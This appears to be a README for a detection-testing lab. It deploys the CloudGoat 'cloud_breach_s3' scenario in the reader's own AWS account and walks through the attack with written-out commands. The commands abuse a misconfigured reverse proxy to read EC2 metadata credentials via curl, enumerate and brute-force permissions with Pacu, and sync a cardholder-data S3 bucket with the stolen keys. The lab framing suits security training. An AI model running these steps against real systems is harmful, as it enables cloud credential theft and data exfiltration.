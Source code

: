 ### Objective 
Quick attack to get account in critical quadrant (~20 minutes).
- Detections include
  - AWS Organization Discovery
  - AWS User Permissions Enumeration
  - AWS Suspicious Credential Usage
  - AWS Suspicious EC2 Enumeration
  - AWS S3 Enumeration

![critical](./images/critical.png)

### Guide Notes
- There are other ways to install the tools and will depend on distro.
- Setting up the AWS profile may very based on an organizations requirements. For instance SSO would vary between org.

### Requirments
- Linux or MacOS. Windows is not officially supported.
  - If you are using Windows we recommand install [WSL2](https://docs.microsoft.com/en-us/windows/wsl/install)
  - If you are using a Linux virtual machine AWS EC2 is not supported
  - In this guide a new Ubuntu VM was created in VM Fusion.  This guide goes through setting up the Ubuntu VM.
- Python3.6+ is required.
- Terraform >= 0.14 installed and in your $PATH.
- The AWS CLI installed and in your $PATH, and an AWS account with sufficient privileges to create and destroy resources.
  - AWS [Named profile configured](https://docs.aws.amazon.com/cli/latest/userguide/cli-configure-profiles.html)

### Install system prerequisites (may already be installed) 

```bash
sudo apt-get update && sudo apt install -y ssh vim net-tools curl git python3-pip 
```

### Install tools for attack (may already be installed) 
- Install awscli
   - Download the package
     ```bash
     curl "https://awscli.amazonaws.com/awscli-exe-linux-x86_64.zip" -o "awscliv2.zip"
     ```
   - Unzip the installer 
     ```bash
     unzip awscliv2.zip
     ``` 
   - Run the install program
     ```bash
     sudo ./aws/install
     ```
- Install terraform
   - Terraform Prerequisites 
     ```bash
     sudo apt-get update && sudo apt-get install -y gnupg software-properties-common
     ```
   - Add the HashiCorp GPG key 
     ```bash
     curl -fsSL https://apt.releases.hashicorp.com/gpg | sudo apt-key add -
     ```
   - Add the official HashiCorp Linux repository 
     ```bash
     sudo apt-add-repository "deb [arch=amd64] https://apt.releases.hashicorp.com $(lsb_release -cs) main"
     ```  
   - Update to add the repository, and install the Terraform CLI 
     ```bash
     sudo apt-get update && sudo apt-get install terraform
     ```

### Install Cloudgoat
  - Use git to clone the Cloudgoat repo to home directory and change to the new directory
     ```bash
     git clone https://github.com/RhinoSecurityLabs/cloudgoat.git ~/cloudgoat && cd ~/cloudgoat
     ```
  - Install the Cloudgoat dependencies 
     ```bash 
     pip3 install -r ./core/python/requirements.txt && chmod u+x cloudgoat.py
     ```

### Install Pacu
  - Use git to clone the Pacu repo to home directory and change to the new directory
     ```bash
     git clone https://github.com/RhinoSecurityLabs/pacu.git ~/pacu && cd ~/pacu
     ```
 - Install the Pacu dependencies 
     ```bash 
     pip3 install -r requirements.txt
     ```

### Setup AWS Profile
- Setup AWS profile for Cloudgoat.  This account will need admin access in AWS.  This will create or add a new profile in ```~/.aws/config``` and ```~/.aws/credentials```

- You will be prompted for ```Access Key ID, AWS Secret Access Key, Default region name, Default output format```
  ```bash
  aws configure --profile cloudgoat
  ```  
- Make the new aws profile your default 
  ```bash 
  export AWS_PROFILE=cloudgoat
  ```
- Verify credentials are working
  ```bash
   aws sts get-caller-identity
  ```
![awsprofile](./images/awsprofile.png)
### Setup Cloudgoat
  - Run Cloudgoat config profile from home directory and set default profile.  You will be prompted to enter an AWS profile from the previous step which we called ```cloudgoat```.  This is how cloudgoat will access AWS.
     ```bash
     ~/cloudgoat/cloudgoat.py config profile
     ```
  - Run Cloudgoat config whitlelist
     ```bash
     ~/cloudgoat/cloudgoat.py config whitelist --auto
     ```

### Setup vulnerable infrastructure with Cloudgoat
Now that the tools are seutp we will use Cloudgoat to setup vulnerable infastuecure in AWS.  This will create a scenario with a misconfigured reverse-proxy server in EC2. 

  - Run the attack scenario 
     ```bash
     ~/cloudgoat/cloudgoat.py create cloud_breach_s3
     ```

![Cloudgoat](./images/cloudgoatout.png)

- ***Copy the response to a text file*** you will need the EC2 IP

### Start attack
At this point we have created vulnerable infrastucute in AWS using Cloudgoat.  Starting as an anonymous outsider with no access or privileges, exploit a misconfigured reverse-proxy server to query the EC2 metadata service and acquire instance profile keys. Then, use those keys to discover, access, and exfiltrate sensitive data from an S3 bucket.

- Replace ```<ec2-ip-address>``` with the IP address from the previoues step to get a role name.  ***Copy the response to a text file*** as you will need the role name for the next attack
 ```bash
 curl -s http://<ec2-ip-address>/latest/meta-data/iam/security-credentials/ -H 'Host:169.254.169.254'
 ```
 
![role](./images/role.png)

- Replace ```<ec2-ip-address>``` and ```<ec2-role-name>``` from the previous steps to get the keys. ***Copy response to text file*** as you will need these stolen crendentials
 ```bash
 curl -s http://<ec2-ip-address>/latest/meta-data/iam/security-credentials/<ec2-role-name> -H 'Host:169.254.169.254'
 ```

![ssrf2](./images/ssrf2.png)  
  
- Next we will use pacu to do discovery with the stolen crendentials
  - Start pacu from the shell session by running ```~/pacu/cli.py```
  - Create new session in pacu named ```cloud_breach_s3```
  - Set the keys using ```set_keys``` from the pacu session using the stolen credentials from the previous step

![pacukeys](./images/pacukeys.png)

- Use pacu to start disocvery using the following modules
  - ```run aws__enum_account``` Get account details:  permission denied 
  - ```run iam__enum_permissions``` Get permissions for IAM entity:  permission denied
  - ```run iam__enum_users_roles_policies_groups``` Get group polices for IAM entity:  permission denied
  - ```run iam__bruteforce_permissions``` Brute force for access to services: **BINGO!**

![output](./images/output.png)

- The stolen credentials have full access to S3
  - Exit pacu by typing ```exit``` and return to attack
- Create a new aws profile with stolen credentials
 ```bash
 aws configure --profile cloud_breach_s3
 ```
 - Set the ```AWS Access Key ID``` and ```AWS Secret Access Key``` using the stolen crendentials
 - Set the "Default region" name and the "Default output" format to ```json```
 - Manually add the ```aws_session_token``` to the aws credentails file (use i for insert mode then esc :wq to save and close)
   ```bash
   vi  ~/.aws/credentials
   ```
![sestoken](./images/sestoken.png)

- List and search buckets the stolen credentails have access to
   ```bash
   aws s3 ls --profile cloud_breach_s3
   ```
![list](./images/list.png)
- Download data from the ``cardholder-data`` bucket to local system home directory.  Replace ```<bucket-name>``` with the bucket to download data
   ```bash
   aws s3 sync s3://<bucket-name> ~/cardholder-data --profile cloud_breach_s3
   ```
- Change to home directory and perfom list to verify data was downloaded
   ```bash
   cd && ls
   ```
![download](./images/download.png)
- Remove vulnerable infrasturecure
   ```bash
   ~/cloudgoat/cloudgoat.py destroy cloud_breach_s3
   ```
- Attack had been completed.  Review the detections in dfaws dashboard.  